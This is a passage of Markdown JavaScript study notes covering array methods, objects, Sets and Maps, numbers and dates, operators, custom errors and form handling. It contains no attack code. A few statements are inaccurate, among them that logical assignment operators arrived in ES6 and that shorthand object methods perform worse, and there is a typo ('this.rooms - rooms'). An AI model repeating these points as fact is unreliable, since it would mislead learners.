    const set = new Set(['foo', 'bar']);
    const arr = Array.from(set); // ['foo', 'bar']
    ```

    - mainly used to convert `node list` to an array

      ```js
      const movementsUI = Array.from(document.querySelectorAll('.movements__value'));
      // or you can use spread operator [...document.querySelectorAll(".movements__value")]
      ```

    - Note that it takes a **mapping function** as a second argument.

      ```js
      const movementsUI = Array.from('abcd', x => x.toUpperCase()); // ['A', 'B', 'C', 'D']
      ```

- `some` & `every` methods

  - `some` : returns `true` if at least one element in the array passes the test implemented by the provided function.
  - `every` : returns `true` if all elements in the array pass the test implemented by the provided function.

    ```js
    const movements = [200, 450, -400, 3000, -650, -130, 70, 1300];

    // some
    const anyDeposits = movements.some(mov => mov > 0); // true

    // every
    const allDeposits = movements.every(mov => mov > 0); // false
    ```

- Notes:

  - operations on array:

    ```js
    alert([] + 1); // "1"
    alert([1] + 1); // "11"
    alert([1, 2] + 1); // "1,21"
    ```

  - Methods cheat sheets
    
    

---

##### Array Data Transformation Methods (`map`, `filter`, `reduce`)



- `map`

  - It's a method used to **transform** an array by **applying a function** to each element of the array.

    - it creates a new array with the results of calling a provided function on every element in the calling array.

      ```js
      const arr = [1, 2, 3, 4];
      const double = arr.map(num => num * 2); // [2, 4, 6, 8]
      ```

- `filter`

  - It's a method used to **filter** an array by **applying a function** to each element of the array.

    - it creates a new array with all elements that pass the test implemented by the provided function.

      ```js
      const arr = [1, 2, 3, 4];
      const even = arr.filter(num => num % 2 === 0); // [2, 4]
      ```

  - `filter` vs `find` vs `findIndex`
    
    - `filter`: Returns an array of all items matching a condition.
    - `find`: Returns the **first** item matching a condition or `undefined`.
    - `findIndex`: Returns the index of the **first** item matching a condition or `-1`.

- `reduce`

  - It's a method used to **reduce** an array to a single value by **executing a reducer function** for each element of the array.

    

    - it uses an **accumulator** and **current value** to return a single value

  - Examples:

    - Sum of all elements in an array

      ```js
      const arr = [1, 2, 3, 4];
      const sum = arr.reduce((acc, cur) => acc + cur, 0); // 10
      // 0 is the initial value of the accumulator
      ```

      

    - Get the maximum value in an array

      ```js
      const arr = [20, 45, -40, 30, -65];
      const max = arr.reduce((acc, cur) => (acc > cur ? acc : cur), arr[0]);
      // use arr[0] as the initial value of the accumulator and not 0 to handle negative numbers
      ```

  - It has 4 parameters: `accumulator`, `currentValue`, `currentIndex`, `array`

    ```js
    const arr = [1, 2, 3, 4];
    const sum = arr.reduce((acc, cur, i, arr) => acc + cur, 0); // 10
    ```

---

### Object

It's a data structure that can store a collection of **key-value pairs**.

- There're 3 ways to create an object:

  - **Object Literals**: `let obj = {};`
  - **Constructor Literals**: `let obj = new Object();`
  - **use a function as a template for creating objects**:

    ```js
    function Hotel(name, rooms) {
      this.name = name;
      this.rooms - rooms;
      // a method
    }

    // Don't forget the "new" keyword
    var hotel_1 = new Hotel('park', 120);
    ```

- Object access rules
  

- To create a new object from an existing object: [How to deep copy an object](./12-JS-interviews-questions-tricks.md#how-to-deep-copy-an-object)

- All Object keys are "stringified" (converted to strings) except for Symbols.

  ```js
  obj[1] = 'hello';
  obj['1'] = 'world';
  console.log(obj[1]); // 'world' -> because the key is converted to a string and overwrites the previous value
  ```

  - Note that it won't be type-coerced to a boolean, so `obj[true]` is converted to `obj['true']`.

---

#### Object Methods

- Object methods are functions that are stored as object properties, and have access to the object's data through the `this` keyword.

  ```js
  const jonas = {
    firstName: 'Jonas',
    birthYear: 1991,

    calcAge: function () {
      this.age = 2037 - this.birthYear;
      return this.age;
    }
  };

  jonas.calcAge();
  ```

- we use `function expression` in objects to declare `methods` because it's better for performance as it's not re-created every time we create a new object

  ```js
  const jonas = {
    firstName: 'Jonas',
    birthYear: 1991,

    // using function expression (recommended ✅)
    calcAge: function () {
      this.age = 2037 - this.birthYear;
      return this.age;
    },

    // using function declaration (not recommended ❌)
    calcAge() {
      this.age = 2037 - this.birthYear;
      return this.age;
    }

    // using function declaration (won't work ❌)
    function calcAge() {
      this.age = 2037 - this.birthYear;
      return this.age;
    }
  };
  ```

---

#### Object.keys, values, entries

- `Object.keys(obj)` – returns an array of keys.
- `Object.values(obj)` – returns an array of values.
- `Object.entries(obj)` – returns an array of `[key, value]` pairs.

- Please note the distinctions (compared to map for example):

  |             | **Map**      | **Object**         |
  | ----------- | ------------ | ------------------ |
  | Call syntax | `Map.keys()` | `Object.keys(obj)` |
  | Returns     | iterable     | “real” Array       |

---

#### Transforming objects (operations on objects)

Objects lack many methods that exist for arrays, e.g. `map`, `filter` and others.

- So, if we’d like to apply them, then we can use `Object.entries` followed by `Object.fromEntries`:

  ```js
  let prices = {
    banana: 1,
    orange: 2,
    meat: 4
  };

  let doublePrices = Object.fromEntries(
    Object.entries(prices).map(entry => [entry[0], entry[1] * 2])
  );

  alert(doublePrices.meat); // 8
  ```

---

#### Object Destructuring

It's a way to extract multiple values from an object and assign them to variables in a single statement.

- Destructuring with changing variable name

  ```js
  const { name: restaurantName, openingHours: hours, categories: tags } = restaurant;
  console.log(restaurantName, hours, tags);
  ```

- Destructuring with default values

  ```js
  const { menu = [], starterMenu: starters = [] } = restaurant;
  ```

- Destructuring values from nested objects

  ```js
  const obj = {
    name: 'Jonas',
    age: 33,
    job: 'teacher',
    friends: ['Michael', 'Peter'],
    // nested object
    location: {
      lat: 36.5,
      lng: -12.3
    }
  };

  const {
    location: { lat, lng }
  } = obj;
  const {
    friends: [friend1, friend2]
  } = obj;
  ```

- Use cases:

  - extracting function parameters

    ```js
    const calcAge = function ({ birthYear }) {
      return 2037 - birthYear;
    };

    console.log(calcAge({ birthYear: 1991 }));
    ```

---

### Sets

A **Set** is a collection of unique values (no duplicates).

- **Methods**:

  - `new Set(iterable)`: Creates a set, optionally from an iterable (e.g., array).
  - `set.add(value)`: Adds a value.
  - `set.delete(value)`: Removes a value, returns `true` if it existed.
  - `set.has(value)`: Checks if a value exists, returns `true` if it does.
  - `set.clear()`: Removes all values.
  - `set.size`: Returns the number of elements.

- To convert `map` / `set` to `array`: use `Array.from()` or `spread operator`

  ```js
  let arr = [1, 2, 2, 3];
  const set = new Set(arr); // {1, 2, 3}

  // convert set to array
  arr = Array.from(set); // [1, 2, 3]
  // or
  arr = [...set]; // [1, 2, 3]
  ```

- We can loop over a set either with `for..of` or using `forEach`

  ```js
  let set = new Set(['oranges', 'apples', 'bananas']);

  for (let value of set) {
    console.log(value);
  }

  // the same with forEach:
  set.forEach((value, valueAgain, set) => {
    console.log(value);
  });
  ```

---

#### WeakSet

- It is similar to Set, but we may **only add objects** to `WeakSet` (not primitives).
- An object exists in the set **while it is reachable from somewhere else**.

  ```js
  let visitedSet = new WeakSet();

  let john = { name: 'John' };
  let pete = { name: 'Pete' };
  let mary = { name: 'Mary' };

  visitedSet.add(john); // John visited us
  visitedSet.add(pete); // Then Pete
  visitedSet.add(john); // John again

  // visitedSet has 2 users now
  alert(visitedSet.has(john)); // true
  alert(visitedSet.has(mary)); // false

  john = null;
  // visitedSet will clean up John references upon next garbage collection
  ```

> The most notable limitation of `WeakMap` and `WeakSet` is the **absence of iterations**, and the inability to get all current content. That may appear inconvenient, but does not prevent WeakMap/WeakSet from doing their main job – be an “additional” storage of data for objects which are stored/managed at another place.

---

### Maps

**Map** is data structure that allows to map `keys` to `values` without the drawbacks of using objects as keys.



- The `Map()` constructor creates a new `Map` object in JavaScript, and takes an iterable object as an argument (e.g., an `array`).

  ```js
  const map = new Map();
  map.set('1', 'str1'); // a string key

  // or
  const map2 = new Map([
    ['1', 'str1'], // array of [key, value] pairs
    [1, 'num1'],
    [true, 'bool1']
  ]);

  // or
  const obj = {
    name: 'Jonas',
    age: 33
  };
  const map3 = new Map(Object.entries(obj)); // convert object to map
  ```

- Use **variables** for `arrays` as keys in a `Map` to avoid multiple memory allocations and access issues.

  ```js
  // Correct way ✅
  const arr = [1, 2];
  const map = new Map();
  map.set(arr, 'test');
  map.get(arr); // 'test'

  // Incorrect way ❌
  map.set([1, 2], 'test');
  map.get([1, 2]); // undefined -> because it's a different array in memory
  ```

- The main differences with `Objects` are:

  - `Map` allows keys of **any type**
  - `Map` is **ordered** (the keys are iterated in the same order as they were inserted).

- `Maps` vs `Objects`
  

- **Map Methods**:

  - `new Map()`: Creates a map.
  - `map.set(key, value)`: Adds a key-value pair. Can chain calls:

    ```js
    map.set('1', 'str1').set(1, 'num1').set(true, 'bool1');
    ```

  - `map.get(key)`: Returns the value by key.
  - `map.has(key)`: Checks if a key exists.
  - `map.delete(key)`: Removes a key-value pair.
  - `map.clear()`: Clears the map.
  - `map.size`: Returns the number of elements.

- **Convert Map to Object**:

  ```js
  // Object.fromEntries method that does the reverse: given an array of [key, value] pairs, it creates an object from them
  let prices = Object.fromEntries([
    ['banana', 1],
    ['orange', 2],
    ['meat', 4]
  ]);

  let obj = Object.fromEntries(fruitsMap.entries());
  // or
  let obj = Object.fromEntries(map); // as Object.fromEntries expects an iterable object as the argument
  ```

---

#### WeakMap



- if we use an object as the key in a regular Map, then while the Map exists, that object exists as well. It occupies memory and may not be garbage collected.

  ```js
  let john = { name: 'John' };
  let map = new Map();
  map.set(john, '...');
  john = null; // overwrite the reference
  // john is stored inside the map,
  // we can get it by using map.keys()
  ```

- **WeakMap** is fundamentally different in this aspect. **It doesn’t prevent garbage-collection of key objects**.

- The first difference between **Map** and **WeakMap** is that keys must be objects, not primitive values:

  ```js
  let weakMap = new WeakMap();
  let obj = {};
  weakMap.set(obj, 'ok'); // works fine (object key)

  // can't use a string as the key
  weakMap.set('test', 'Whoops'); // Error, because "test" is not an object
  ```

- if we use an object as the key in it, and there are no other references to that object – it will be removed from memory (and from the map) automatically.

  ```js
  let john = { name: 'John' };
  let weakMap = new WeakMap();
  weakMap.set(john, '...');

  john = null; // overwrite the reference
  // john is removed from memory!
  ```

  > The main area of application for WeakMap is an **additional data storage**.
  >
  > - If we’re working with an object that “belongs” to another code, maybe even a third-party library, and would like to store some data associated with it, that should only exist while the object is alive – then **WeakMap** is exactly what’s needed.
  >
  > ```js
  > weakMap.set(john, 'secret documents');
  > // if john dies, secret documents will be destroyed automatically
  > ```

---

## Numbers

- All numbers in JavaScript are of type `Number`, whether integer or floating-point.

  ```js
  132 === 132.0; // true
  ```

- Use `Number.isFinite()` or `Number.isNaN()` to check if a number is a finite number or `NaN`.

  ```js
  // checks if the value is a number
  Number.isFinite(15); // true
  Number.isFinite('15'); // false
  Number.isFinite(Infinity); // false
  Number.isFinite(23 / 0); // false

  // checks if the value is NaN
  Number.isNaN('15'); // false
  Number.isNaN(NaN); // true
  Number.isNaN(Infinity); // false
  ```

- Get a random number between two values:

  ```js
  function getRandomNum(min, max) {
    return Math.random() * (max - min) + min;
  }

  function getRandomInt(min, max) {
    return Math.floor(Math.random() * (max - min + 1)) + Math.ceil(min);
  }
  ```

- **Format/Parse Numbers**

  - Parse numbers:

    ```js
    // parseInt -> returns an integer
    parseInt('12.34'); // 12 (base 10)
    parseInt('100px'); // 100 (base 10)
    parseInt('year2020'); // NaN (no digits at the beginning)
    parseInt('111', 2); // 7 (base 2)

    // parseFloat -> returns a floating-point number
    parseFloat('12.34'); // 12.34
    parseFloat('100px'); // 100
    ```

  - Format currency: [Formatting](https://www.samanthaming.com/tidbits/30-how-to-format-currency-in-es6/)

- **Notes**

  - `toFixed()`

    - returns a `string`, so if you need a number, use `+` or `Number()` to convert it.

      ```js
      let num = 12.34;
      alert(num.toFixed(1)); // 12.3 -> type: string
      alert(+num.toFixed(1)); // 12.3 -> type: number
      ```

  - `Math.round()` and `toFixed()`
    - both round to the nearest number: `0..4` **lead down** while `5..9` **lead up**.
  - `toString()`

    - can take a base to convert to (The base can vary from `2` to `36`. By default it’s `10`)

  - **calculations**:

    - floating-point numbers are not precise, so it's better to use `toFixed()` to round the result.

      ```js
      alert(0.1 + 0.2 == 0.3); // false
      alert(0.1 + 0.2); // 0.30000000000000004
      ```

      - why? -> because A **number is stored in memory in its binary form**, a sequence of `bits` (`ones` and `zeroes`). But fractions like `0.1`, `0.2` that look simple in the decimal numeric system are actually unending fractions in their `binary` form.
      - So `0.1` is one divided by ten `1/10`, In decimal numeral system such numbers are easily representable. Compare it to one-third: `1/3`. It becomes an endless fraction `0.33333`.
      - So, division by powers `10` is guaranteed to work well in the decimal system, but division by `3` is not.
      - This is important to know especially when we do financial calculations where precision is important. **(e.g. cryptocurrencies, banking, etc.)**
      - Solution:

        ```js
        alert((0.1 * 10 + 0.2 * 10) / 10); // 0.3
        // OR
        alert(+(0.1 + 0.2).toFixed(2)); // 0.3
        ```

    - (square / cube) root of a value:

      ```js
      alert(Math.sqrt(9)); // 3
      // or
      alert(9 ** (1 / 2)); // 3
      alert(27 ** (1 / 3)); // 3 -> cube root
      ```

---

### Math operations

```js
// Rounding
alert(Math.floor(3.1)); // 3 (round down)
alert(Math.ceil(3.1)); // 4
alert(Math.round(3.1)); // 3 (round to nearest integer (up or down)()
alert(Math.trunc(3.1)); // 3 (remove anything after the decimal point)

alert(Math.sqrt(9)); // 3
alert(Math.pow(2, 3)); // 8
alert(Math.abs(-5)); // 5

alert(Math.max(1, 2, 3, 4, 5)); // 5
alert(Math.min(1, 2, 3, 4, 5)); // 1

alert(Math.random()); // random number from 0 to 1
```

---

### Special numbers

- `Infinity`, `-Infinity`
- `NaN`

  - `0 / 0` = `NaN`
  - `Infinity - Infinity` = `NaN`
  - `console.log("five" * 2)` ->`NaN`

- Numeric Separators:

  - It's a syntactic sugar to write big numbers.

  ```js
  let num = 1_000_000; // 1 million -> JavaScript ignores underscores (_)
  let numFromStr = +'1_00'; // NaN ❌ (string with `_` is not a number)
  let numFromStr = num + 20; // 1000020 ✅
  ```

- Ways to write big numbers:

  - `1e3` = `1 * 10^3` = `1000`
  - `1e-6` = `1 * 10^-6` = `0.000001`
  - `1_000_000` = `1000000`
  - `BigInt` = `9007199254740991n` (ends with `n`)

    - `BigInt` is a special numeric type that provides support for integers of arbitrary length.

    ```js
    1n + 2n; // 3n
    BigInt(352); // 352n
    typeof 1n; // bigint
    20n === 20; // false -> strict equality
    20n == 20; // true -> loose equality
    ```

- Big numbers can't be used with normal numbers:

  ```js
  alert(1n + 2); // Error ❌  -> can't mix BigInt and other types
  alert(1n + 2n); // 3
  ```

- Maximum numbers in JavaScript:

  - JavaScript can’t represent all numbers precisely. There’s a limit for the maximum number that can be represented precisely, and it’s called `Number.MAX_SAFE_INTEGER`.

    ```js
    alert(Number.MAX_SAFE_INTEGER); // 9007199254740991
    alert(Number.MIN_SAFE_INTEGER); // -9007199254740991

    // also the maximum number
    alert(Number.MAX_VALUE); // 1.7976931348623157e+308
    ```

> There is only one value in JavaScript that is not equal to itself, and that is **NaN** > `console.log(NaN == NaN)` -> false

---

### Numbers Internationalization

It's a modern way to work with numbers that adapts to the user's locale (country & language).

- **Intl.NumberFormat**:

  - It's a constructor for objects that enable language-sensitive number formatting.

- Currency formatting:

  ```js
  let num = 123456.789;

  let options = {
    style: 'currency',
    currency: 'EUR'
  };

  alert(new Intl.NumberFormat('de-DE', options).format(num)); // 123.456,79 €
  alert(new Intl.NumberFormat('en-US', options).format(num)); // €123,456.79
  ```

- Temperature formatting:

  ```js
  let num = -40;

  let options = {
    style: 'unit',
    unit: 'celsius'
  };

  alert(new Intl.NumberFormat('en-US', options).format(num)); // -40°C
  alert(new Intl.NumberFormat('ar-EG', options).format(num)); // -٤٠°C
  ```

---

## Date

To create a new Date object call: `new Date()`

- `new Date()` -> Without arguments – create a Date object for the current date and time:

  ```js
  let now = new Date(); // 2021-09-01T12:00:00.000Z

  // new Date(milliseconds)
  let d0 = new Date(3 * 24 * 3600 * 1000); // 3 days from 01.01.1970

  // new Date(year, month, date, hour, minute, second, millisecond)
  let d1 = new Date(2012, 1, 20, 3, 12); // 20 Feb 2012, 3:12am

  // new Date(datastring)
  let d2 = new Date('2012-02-20T03:12'); // 20 Feb 2012, 3:12am
  ```

- `date.getTime()` -> returns the number of milliseconds from the beginning of time `(Jan 1, 1970)`

  ```js
  // 0 means 01.01.1970 UTC+0
  let Jan01_1970 = new Date(0);
  Jan01_1970.getTime(); // 0
  ```

- **Date methods**
  

- **Notes**:

  - Don't use `getYear()`, but use `getFullYear()`, because `getYear()` is deprecated and it returns 2-digit year sometimes.
    - `getYear()` returns year minus `1900`. This has been deprecated for a while now, it's best to use `getFullYear()`.
  - `month` is **zero-based** so we add `1` to it to get the correct month

  ```js
  let date = new Date(2012, 0, 3); // 3 Jan 2012
  let date = new Date(2012, 1, 3); // 3 Feb 2012
  let date = new Date(2012, 2, 3); // 3 Mar 2012
  ```

  - when you perform operations on `dates`, the result is in form of `milliSeconds`

- **Dates Autocorrelation**

  - It's a very handy feature of `Date` objects. We can set out-of-range values, and it will auto-adjust itself.

    ```js
    let date = new Date(2013, 0, 32); // 32 Jan 2013 -> 1 Feb 2013
    // Here, the "month" is specified with more days than it already has, so it goes to the next month.
    ```

---

### Operations with Dates

- **Date to number, date diff**

  - When a Date object is converted to number, it becomes the timestamp same as `date.getTime()`:

    ```js
    let date = new Date();
    alert(+date); // the number of milliseconds, same as date.getTime()
    ```

- **Parsing date from a string**

  - `Date.parse(str)` reads a date from a string and returns the timestamp (milliseconds since 1 Jan 1970 UTC+0).
    - Returns **NaN** if the format is invalid.
  - Format: `YYYY-MM-DDTHH:mm:ss.sssZ`
    - `YYYY-MM-DD` – year-month-day.
    - `T` – delimiter.
    - `HH:mm:ss.sss` – time: hours, minutes, seconds, milliseconds.
    - `Z` – optional time zone in `+-hh:mm` or `Z` for UTC+0.

  ```js
  let ms = Date.parse('2012-01-26T13:51:50.417-07:00');
  alert(ms); // 1327611110417 (timestamp)
  ```

---

### Dates Internationalization

It's a modern way to work with dates and times that adapts to the user's locale (country & language).

> [`Intl.DateTimeFormat` cheatsheet](https://devhints.io/wip/intl-datetime)

- **Intl.DateTimeFormat**:

  - It's a constructor for objects that enable language-sensitive date and time formatting.

  ```js
  let date = new Date(Date.UTC(2012, 11, 20, 3, 0, 0));

  let options = {
    weekday: 'long',
    year: 'numeric',
    month: 'long',
    day: 'numeric'
  };

  new Intl.DateTimeFormat('en-US', options).format(date); // Thursday, December 20, 2012
  new Intl.DateTimeFormat('ar-EG', options).format(date); // الخميس، ٢٠ ديسمبر، ٢٠١٢
  ```

- To get the user's locale, use `navigator.language` or `navigator.languages` (for an array of locales)

  ```js
  const locale = navigator.language; // "en-US"
  ```

---

### Dates Third-party Libraries

- **Moment.js**:

  - It's a popular library for parsing, validating, manipulating, and formatting dates.

    ```js
    const moment = require('moment');
    moment().format('MMMM Do YYYY, h:mm:ss a'); // September 1st 2021, 12:00:00 pm
    ```

- **Day.js**:

  - It's a minimalist JavaScript library that parses, validates, manipulates, and displays dates and times.

    ```js
    const dayjs = require('dayjs');
    dayjs().format('YYYY-MM-DD'); // 2021-09-01
    ```

---

## Operators

- **Operator** is a special symbol that performs specific operations on one, two, or three operands, and then returns a result.
- **operand** is what operators are applied to

### Types of Operators

- There're many types of operators in JavaScript, but we can classify them into 3 main types:

  - **Unary** operators -> is for 1 operand

    ```js
    // Increment/decrement a variable
    let x = 1;
    x++; // 2
    x--; // 1

    // Unary plus/minus
    let y = -2;
    console.log(+y); // -2
    console.log(-y); // 2

    // Logical NOT
    console.log(!true); // false
    console.log(!0); // true
    ```

  - **Binary** operators -> is for 2 operands

    ```js
    // Addition
    console.log(5 + 2); // 7

    // Logical / Boolean operators
    console.log(true && false); // false
    console.log(true || false); // true
    ```

  - **Ternary** operators -> is for 3 operands

    ```js
    // Conditional (ternary) operator
    let result = condition ? value1 : value2;
    ```

- **Notes:**

  - logical operators (like `&&`) allow you to compare the results of more than one comparison operator (like `===`).
  - The values `undefined` & `NaN` shouldn’t be compared to other values:

    ```js
    alert(undefined > 0); // false
    alert(undefined < 0); // false
    alert(undefined == 0); // false

    // "null" only equals "undefined"
    alert(undefined == null); // true
    alert(undefined === null); // false

    // NaN is incomparable with any value
    alert('NaN' > 0); // false
    alert('NaN' < 0); // false
    alert('NaN' == 0); // false
    alert('NaN' == NaN); // false (NaN is special)
    ```

  - There're new **"logical assignment operators"** like `**=`, `??=`, `&&=`, `||=` introduced in ES6, where `a ??= b` means `a = a ?? b`.

---

### Operator Precedence

**Operator precedence** determines the order in which operators are evaluated in an expression. Operators with higher precedence are evaluated first.

- Order:

  - **Parentheses** have the highest precedence and can be used to force an expression to evaluate in the order you want.

  - **Unary operators**

  - **Multiplication, division, and modulo**

  - **Addition and subtraction**

  - **Relational operators**

  - **Equality operators**

  - **Logical `AND`**

  - **Logical `OR`** has lower precedence than the logical `AND` operator.

  - **Assignment operators** have the lowest precedence.

- Example

  ```js
  let x = 2 + 3 * 4; // 2 + 12 = 14

  let y = (2 + 3) * 4; // 5 * 4 = 20
  ```

---

### Spread Operator

The spread operator `...` allows an **iterable** to expand in places where `0+` arguments are expected.

```js
let arr = [3, 5, 1];
alert(Math.max(...arr)); // 5
```

- It's used for [Object destructuring](#object-destructuring) and [Array destructuring](#array-destructuring).
- It's used on the **right side** of an assignment to spread an iterable into the elements of the array.

  ```js
  let arr = [3, 5, 1];
  let arr2 = [8, 9, 15];
  let merged = [0, ...arr, 2, ...arr2];
  // merged = [0, 3, 5, 1, 2, 8, 9, 15]
  ```

- Use cases:

  - **Copying an array**

    ```js
    let arr = [1, 2, 3];
    let arrCopy = [...arr]; // like arr.slice()
    ```

  - **Concatenating arrays**

    ```js
    let arr1 = [1, 2, 3];
    let arr2 = [4, 5, 6];
    let merged = [...arr1, ...arr2];
    ```

  - **Passing an array to a function that normally requires a list of many arguments**

    ```js
    let arr = [3, 5, 1];
    Math.max(...arr); // 5
    ```

  - **Converting from `string` to `array`**

    ```js
    let str = 'Hello';
    let chars = [...str]; // ['H', 'e', 'l', 'l', 'o']
    ```

  - **Merging objects**

    ```js
    let mergedObj = { ...obj1, ...obj2 };
    ```

  - **Copying an object**

    ```js
    let obj = { a: 1, b: 2 };
    let objCopy = { ...obj };
    ```

---

### Rest Parameters

It's used to **collect** a **variable number of arguments** into an array.

- It's used on the **left side** of a function parameter to collect all the remaining arguments into an array.

  ```js
  const [a, b, ...others] = [1, 2, 3, 4, 5];
  console.log(a, b, others); // 1 2 [3, 4, 5]
  ```

- Use cases:

  - Collect elements that aren't used in destructuring

    ```js
    let [name, age, ...titles] = ['Julius', 41, 'Consul', 'Imperator'];
    alert(titles); // ['Consul', 'Imperator']
    ```

    - It must be the **last** in the list of parameters, as it collects the **rest** of the parameters.

  - **Function that accepts any number of arguments**

    ```js
    function sumAll(...args) {
      let sum = 0;

      args.forEach(arg => (sum += arg));

      return sum;
    }

    alert(sumAll(1)); // 1
    alert(sumAll(1, 2)); // 3
    alert(sumAll(1, 2, 3)); // 6
    ```

  - **Function that accepts a fixed number of arguments**

    ```js
    function showName(firstName, lastName, ...titles) {
      alert(firstName + ' ' + lastName); // Julius Caesar

      // the rest go into titles array
      // i.e. titles = ["Consul", "Imperator"]
      alert(titles[0]); // Consul
      alert(titles[1]); // Imperator
      alert(titles.length); // 2
    }

    showName('Julius', 'Caesar', 'Consul', 'Imperator');
    ```

    - The rest parameters must be **at the end** of the parameters list for a function.

---

### Short circuiting - Nullish coalescing operator `??`

- **Short-circuiting**

  - It's a technique used to avoid unnecessary work or evaluation.
  - It's used in logical operations to skip the evaluation of the right-hand operand when the left-hand operand is enough to determine the outcome of the operation.

    ```js
    let x = 1;
    x > 0 && console.log('Hello'); // Hello
    ```

  - It's also used when we have complex conditions

    ```js
    let x = 1;
    let y = 2;

    if (x > 0 && y > 0) {
      console.log('Hello');
    }
    ```

  - The result of this is not a `boolean`, but the value of the last evaluated expression.

    - `OR` -> returns the first truthy value or the last value if no truthy value is found.

    ```js
    console.log(3 || 'Jonas'); // 3
    console.log('' || 'Jonas'); // Jonas
    console.log(undefined || null); // null
    ```

    - `AND` -> returns the first falsy value or the last value if no falsy value is found.

      ```js
      console.log(3 && 'Jonas'); // Jonas
      console.log('' && 'Jonas'); // ''
      console.log(undefined && null); // undefined
      ```

- **Nullish coalescing operator**

  - It's a logical operator that returns its right-hand side operand when its left-hand side operand is `null` or `undefined`, and otherwise returns its left-hand side operand.
    
    - if `a` is defined, then `a`.
    - if `a` isn’t defined, then `b`.
  - It's a way to handle default values more predictably than `||` operator.
  - Example:

    ```js
    let height = 0;
    console.log(height || 100); // 100
    console.log(height ?? 100); // 0 -> because height is 0 (and not `null` or `undefined`)

    let width;
    console.log(width || 100); // 100
    console.log(width ?? 100); // 100 -> because width is undefined

    let condition = false;
    console.log(condition || true); // true
    console.log(condition ?? true); // false -> because condition is false (and not `null` or `undefined`)
    ```

  - It's a good replacement for `||` when we want to treat `0` or `''` as a valid value.

  - It's used to provide a default value for a variable that may be `null` or `undefined`.

- **Optional chaining** `?.`
  

  - It's a safe way to access nested object properties, even if an intermediate property doesn’t exist.
  - It allows reading the value of a property located deep within a chain of connected objects without having to check that each reference in the chain is valid.
  - enables you to read the value of a property located deep within a chain of connected objects without having to check that each reference in the chain is valid.

    ```js
    let user = undefined;

    console.log(user.address.street); // error ❌
    console.log(user?.address?.street); // undefined ✅

    // this is better than using `&&` to check each property
    console.log(user && user.address && user.address.street); // undefined ✅ but it's not clean
    ```

  - We can use `?.` for safe reading and deleting, but not writing

  - it works well with `nullish coalescing operator` `??`:

---

## Errors

When an exception is thrown, the interpreter stops and checks the current execution context for exception-handling code. So if the error occurs in a function, the interpreter starts to look for error-handling code in that function.

If an error happens in a function and the function does not have an exception handler, the interpreter goes to the line of code that called the function.

### Error object

When an error occurs, JavaScript generates an object containing the details about it. The object is then passed as an argument to the error-handling-code like `catch`

Error objects can help you find where your mistakes are and browsers have tools to help you read them.







#### Custom Errors

When we develop something, we often need our own error classes to reflect specific things that may go wrong in our tasks. For errors in network operations we may need `HttpError`, for database operations `DbError`, for searching operations `NotFoundError` and so on.

- Our errors should support basic error properties like message, name and, preferably, stack. But they also may have other properties of their own, e.g. `HttpError` objects may have a `statusCode` property with a value like `404` or `403` or `500`.
- also, As the application grows, our own errors naturally form a hierarchy. For instance, HttpTimeoutError may inherit from HttpError, and so on.

##### Extending Error

We can inherit from Error and other built-in error classes normally. We just need to take care of the `name` property and don’t forget to call `super`.

- We can use `instanceof` to check for particular errors. It also works with inheritance. But sometimes we have an error object coming from a 3rd-party library and there’s no easy way to get its class. Then name property can be used for such checks.

```js
class ValidationError extends Error {
  constructor(message) {
    super(message);
    this.name = 'ValidationError';
  }
}

// Usage
function readUser(json) {
  let user = JSON.parse(json);

  if (!user.age) {
    throw new ValidationError('No field: age');
  }
  if (!user.name) {
    throw new ValidationError('No field: name');
  }

  return user;
}

// Working example with try..catch
try {
  let user = readUser('{ "age": 25 }');
} catch (err) {
  if (err instanceof ValidationError) {
    alert('Invalid data: ' + err.message); // Invalid data: No field: name
  } else if (err instanceof SyntaxError) {
    // (*)
    alert('JSON Syntax Error: ' + err.message);
  } else {
    throw err; // unknown error, rethrow it (**)
  }
}
```

---

### Error Handling

More details in the [ASYNC.md](./04-ASYNC.md) file

---

## Forms

- You can access forms in the document using the `form` property

  ```js
  document.forms.myForm; // the form with name="myForm"
  document.forms[0]; // the first form in the document
  ```

- For any element, the form is available as `element.form`. So a form references all elements, and elements reference the form.
  

### Form Elements

#### input and textarea

- We can access their value as `input.value` (string) or `input.checked` (boolean) for checkboxes and radio buttons.
- Use `textarea.value`, not `textarea.innerHTML`
  - Please note that even though `<textarea>...</textarea>` holds its value as nested HTML, **we should never use `textarea.innerHTML` to access it**.
  - It stores only the HTML that was initially on the page, not the current value.

#### select and option

- `<select>` element has 3 important properties:

  1.`select.options` – the collection of `<option>` sub-elements, 2.`select.value` – the value of the currently selected `<option>` 3.`select.selectedIndex` – the number of the currently selected `<option>`

```html
<select id="select">
  <option value="apple">Apple</option>
  <option value="pear">Pear</option>
  <option value="banana">Banana</option>
</select>

<script>
  select.options[2].selected = true;
  select.selectedIndex = 2;
  select.value = 'banana';
  // get all selected values from multi-select (note that options is a HTMLCollection not an array)
  let selected = Array.from(select.options)
    .filter(option => option.selected)
    .map(option => option.value);
</script>
```

- creating **new option** element:

  - We can use `document.createElement('option')` and set attributes manually
  - or we can use the `Option` constructor:

    ```js
    option = new Option(text, value, defaultSelected, selected);

    // creates <option value="value">Text</option>
    let option = new Option('Text', 'value');

    // same but selected
    let option = new Option('Text', 'value', true, true);
    ```

- Dealing with numbers in `<input>`

  - The value of an `<input>` is always a **string**. If we need to get a number, we can use `parseInt` or `parseFloat`:

    ```js
    function onChange() {
      let parsedValue = parseInt(input.value);
      // or let parsedValue = +input.value;

      // check if it's a number using isNaN()
      if (!isNaN(parsedValue)) {
        console.log(parsedValue);
      } else {
        console.log('Not a number');
      }
    }
    ```

  - Questions for further understanding:

    - Why is this better than using `typeof`?

      - `typeof` checks the type of the variable, but it doesn't validate the content. For example, `typeof input.value === "number"` would be false for a numeric string like `"123"`, while `parseInt` can extract the number from it.

    - Why is using `parseInt` is better than using `Number()`?

      - `parseInt` can handle strings with non-numeric characters more gracefully, returning the integer value it can parse, while `Number()` will return `NaN` if the entire string is not a valid number.

        ```js
        parseInt('123abc'); // 123
        parseInt('abc123'); // NaN

        Number('123abc'); // NaN
        Number('abc123'); // NaN
        ```

---

### event handler in forms

- **form input**:

  - The `input` event triggers when any of the form fields are changed, usually it's used to validate the form in real-time.
  - It's a modern replacement for `change` event, as it triggers immediately after the value changes, not when the field is blurred.

  ```html
  <form id="form">
    <input type="text" name="login" id="inputLogin" />
    <input type="password" name="password" id="inputPassword" />
  </form>

  <script>
    const formEl = document.getElementById('form');
    formEl.addEventListener('input', function (e) {
      const { name, value } = e.target;
      // saving to sessionStorage
      const formData = JSON.parse(sessionStorage.getItem('formData')) || {};
      formData[name] = value;
      sessionStorage.setItem('formData', JSON.stringify(formData));
